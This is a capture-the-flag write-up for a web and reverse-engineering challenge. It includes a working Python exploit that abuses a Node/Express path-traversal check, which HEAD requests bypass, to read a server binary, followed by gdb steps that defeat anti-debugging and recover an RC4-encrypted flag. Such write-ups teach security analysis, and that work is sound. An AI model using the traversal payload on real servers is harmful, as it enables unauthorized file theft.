

# Journey: Chapter II (web/re, 384+31 pts, 5 solves)

The source of `admin.html` suggests that we are after an `admin-tool` binary:
```html
<div style="margin-top: 20px">
    Don't forget to practice remembering your Security Key PIN code with the ./admin-tool tool!
</div>
```

An arbitrary file read would be nice. One endpoint is interesting in this regard:
```javascript
app.get('/share', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })
  
    const favList = favDb.get(req.session.username)
    if (!favList || favList.length === 0)
        res.send({ err: 'favorites list is empty' })

    const result = {}
    for (const favPath of favList) {
        const [type, name] = path.relative(CONTENT_DB_PATH, favPath).split(path.sep)
        result[type] = result[type] || {}
        result[type][name.replace(".txt", "")] = fs.readFileSync(`${CONTENT_DB_PATH}/${type}/${name}`, "latin1")
    }
    const favId = crypto.randomBytes(8).toString("hex")
    await db.put(`fav_${favId}`, result)
    favDb.set(req.session.username, [])
    res.send({ favId })
})
```

Note that, even though the database stores paths, the endpoint deconstructs
the path manually, and then assembles it back together. Let's take a closer
look at how the paths get inserted into the database.

```javascript
app.get('/favorite', async function (req, res) {
    if (!req.session.username)
        res.send({ err: 'not logged in' })

    const { type, name, unfav } = req.query
    if (type !== "book" && type !== "quote")
        res.send({ err: 'invalid type' })

    if (name.includes("/") || name.includes(".."))
        res.send({ err: 'invalid name' })

    const itemPath = `${CONTENT_DB_PATH}/${type}/${name}.txt`
    if (!fs.existsSync(itemPath))
        res.send({ err: 'not found' })
      
    const favs = favDb.get(req.session.username) || []
    if (unfav)
        favs = favs.filter(x => x !== itemPath)
    else    
        favs.push(itemPath)
      
    favDb.set(req.session.username, favs)
    res.send({ success: true })
})
```

Damn, path traversal is detected and rejected. Except... does `res.send`
end the execution of the function? A quick local test says no, so the checks
are merely a red herring! So let's send a request with `name` set to
`../../admin-tool/x`! One `..` to exit the `quote` directory, and another to
escape `db`. `path.relative` will remove the `quote/../` part, and subsequent
code will trim the path to the first 2 components: `../admin-tool`. This avoids
the `.txt` extension.

Except... it doesn't work: `{"err":"favorites list is empty"}`.

A bit more local testing suggests that `res.send` can only be called once, and
subsequent calls will raise an exception, complaining that "the headers can
only be sent once". This means that, while we may bypass the `name` check,
`existsSync` will still prevent us from injecting the path.

We brainstormed abusing various weird filesystem behaviors, as `path.relative`
does not access the filesystem and thus doesn't know about symbolic links such
as `/proc/self/cwd`. This seems to have been a dead end.

At this point, I decided to dive into the code of `express` to look for a way
of bypassing the exception, and soon stumbled upon a hint:
```javascript
if (req.method === 'HEAD') {
  // skip body for HEAD
  this.end();
} else {
  // respond
  this.end(chunk, encoding);
}
```
It turns out that sending a HEAD request will allow us to bypass the check, though
the snippet above doesn't seem to be directly responsible for it. This lets us
fetch the `admin-tool` binary:

```python
from requests import Session
from uuid import uuid4
s = Session()
rando = str(uuid4())
print(s.post("http://journey.ctf.spamandhex.com/register", json={"password": rando, "username": rando}).content)
print(s.post("http://journey.ctf.spamandhex.com/login", json={"password": rando, "username": rando}).content)
data = {
    "type": "quote",
    "name": "../../admin-tool/x",
}
print(s.head('http://journey.ctf.spamandhex.com/favorite', params=data).content)
fav = s.get("http://journey.ctf.spamandhex.com/share").json()['favId']
print(fav)
data = (s.get('http://journey.ctf.spamandhex.com/favorites?type=..&favId=' + fav).json())
open('admin-tool', 'wb').write(data['admin-tool'].encode('latin1'))
```

A few minutes in the disassembler show that
1. The binary attempts to detect the debugger with PTRACE_TRACEME
2. Our input is encrypted with RC4 or a derivative, and ciphertexts are compared.
   The key is fixed.

I have first attempted to use a Python implementation of RC4, but the decryption
failed. I have decided that it would be more productive to extract the keystream
from the running program with gdb.

```
(gdb) b ptrace
Breakpoint 1 at 0x4005c0
(gdb) r
Starting program: /home/kuba/spamandhex/admin-tool
Journey: PIN Recovery Tool

  "All journeys have secret destinations of which the traveler is unaware."

                                                                    - Martin Buber

PIN recovery: I will tell if you still know the correct PIN or not, so you won't forget it even if you don't use it regularly. That's a great way of recovery I think!


Breakpoint 1, 0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
(gdb) fin
Run till exit from #0  0x00007ffff7eff210 in ptrace ()
   from /gnu/store/1y7g7kj3zxg2p90g692wybqh9b6gv7q2-glibc-2.31/lib/libc.so.6
0x0000000000400976 in ?? ()
(gdb) x/10i $rip
=> 0x400976:    cmp    $0xffffffffffffffff,%rax
   0x40097a:    jne    0x40098f
   0x40097c:    lea    0x1e5(%rip),%rdi        # 0x400b68
   0x400983:    callq  0x400570 <puts@plt>
   0x400988:    mov    $0x1,%eax
   0x40098d:    jmp    0x400994
   0x40098f:    mov    $0x0,%eax
   0x400994:    pop    %rbp
   0x400995:    retq
   0x400996:    push   %rbp
(gdb) p $rax
$1 = -1
(gdb) set $rax=0
(gdb) b *0x400a62
Breakpoint 2 at 0x400a62
(gdb) c
Continuing.
What's your PIN? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x0000000000400a62 in ?? ()
(gdb) x/32xb 0x602160
0x602160:       0x65    0xbe    0xb8    0x98    0x7b    0x9e    0xf7    0xf9
0x602168:       0x07    0xf6    0x07    0x75    0xa9    0x94    0x44    0x62
0x602170:       0xfc    0x9e    0x47    0x41    0x9d    0x8d    0xa4    0x0f
0x602178:       0x13    0x86    0x17    0x3b    0x3f    0x82    0x82    0x69
(gdb) dump memory stream.bin 0x602160 0x602200
```

```python
binary = open('admin-tool', 'rb').read()
stream = open('stream.bin', 'rb').read()

cipher = binary[0x20c0:]
cipher = cipher[:0x70]

out = bytearray()
for b,k in zip(cipher, stream):
    out.append(b^k^65)
print(out)
# bytearray(b'SaF{It is good to have an end to journey toward; but it is the journey that matters, in the end.-2xzB4tW3}\x80G\x12\xf8{a')
```

**Post-CTF addendum:** While preparing this write-up, I have provided too few `A`
characters in the input, which resulted in the flag decryption stopping too
early. No problem&mdash;I thought&mdash;I'll just do it again.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```

To my surprise, this resulted in a completely different keystream. I soon realized
that this must be because the breakpoint is already there when the program is starting.
After all, breakpoints are implemented by overwriting an opcode with `int3`.

The culprit is an entry in the `.init_array` section:



I noticed this function during the CTF, but the code looked like decompiled
`/dev/urandom` at a glance, and [the XREF panel was empty](https://github.com/Vector35/binaryninja-cloud-public/issues/123), so I concluded that it's probably a false positive.

However, further analysis reveals that it checksums most of the code section
and derives an address from the checksum, which is then patched with a `xor`.

Checking with gdb, we see that the address being patched is `0x400902`. This
corresponds to an `add` instruction in the RC4 code, which this xor turns into
a `sub`. The following change in the decoding script makes it decrypt the flag
properly without the dumped keystream:

```diff
-        K = S[(S[i] + S[j]) % 256]
+        K = S[(S[j] - S[i]) % 256]
         yield K
```

I'm quite surprised, and to be honest, somewhat disappointed, that I didn't get
to experience this mischief during the CTF.
